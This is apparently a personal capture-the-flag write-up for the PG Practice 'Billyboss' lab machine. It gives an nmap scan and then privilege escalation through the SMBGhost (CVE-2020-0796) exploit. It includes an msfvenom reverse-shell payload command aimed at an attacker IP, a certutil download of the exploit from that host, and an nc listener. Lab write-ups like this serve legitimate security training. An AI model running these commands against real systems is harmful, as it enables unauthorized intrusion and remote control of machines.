






# Host:
```
192.168.227.61
```

# Nmap
```
Nmap scan report for 192.168.227.61

PORT      STATE    SERVICE       REASON          VERSION
21/tcp    open     ftp           syn-ack ttl 125 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open     http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 8D9ADDAFA993A4318E476ED8EB0C8061
|_http-title: BaGet
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
135/tcp   open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
283/tcp   filtered rescap        no-response
445/tcp   open     microsoft-ds? syn-ack ttl 125
2219/tcp  filtered netiq-ncap    no-response
5040/tcp  open     unknown       syn-ack ttl 125
5968/tcp  filtered mppolicy-v5   no-response
6836/tcp  filtered unknown       no-response
7094/tcp  filtered unknown       no-response
7680/tcp  open     tcpwrapped    syn-ack ttl 125
8081/tcp  open     http          syn-ack ttl 125 Jetty 9.4.18.v20190429
|_http-favicon: Unknown favicon MD5: 9A008BECDE9C5F250EDAD4F00E567721
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Nexus Repository Manager
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-server-header: Nexus/3.21.0-05 (OSS)
8540/tcp  filtered unknown       no-response
10364/tcp filtered unknown       no-response
14843/tcp filtered unknown       no-response
22254/tcp filtered unknown       no-response
29638/tcp filtered unknown       no-response
29673/tcp filtered unknown       no-response
32016/tcp filtered unknown       no-response
40200/tcp filtered unknown       no-response
40224/tcp filtered unknown       no-response
43757/tcp filtered unknown       no-response
46047/tcp filtered unknown       no-response
49664/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
51806/tcp filtered unknown       no-response
52119/tcp filtered unknown       no-response
56106/tcp filtered unknown       no-response
59384/tcp filtered unknown       no-response
64130/tcp filtered unknown       no-response

Running (JUST GUESSING): Microsoft Windows XP|2008 (87%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2008
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows Server 2008 (85%)
```

Got access to nathan through [[PG Practice/Billyboss/8081]]

Now we can check linpeas:

We have smbghost vulnerability

So we can use this [Exploit](https://github.com/danigargu/CVE-2020-0796?source=post_page-----a06f1b79b183--------------------------------)
Now opening it in visual studio

There is an exploit.cpp

We can get shellcode:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.245 LPORT=445 -f dll -f csharp
```


We can now build after replacing the shellcode:
Now we can build it: 


Transfer to machine:
```
certutil -urlcache -f http://192.168.45.245/smbghost.exe smbghost.exe
```
```
smbghost.exe
```

Now running:
```
sudo rlwrap nc -nlvp 445
```


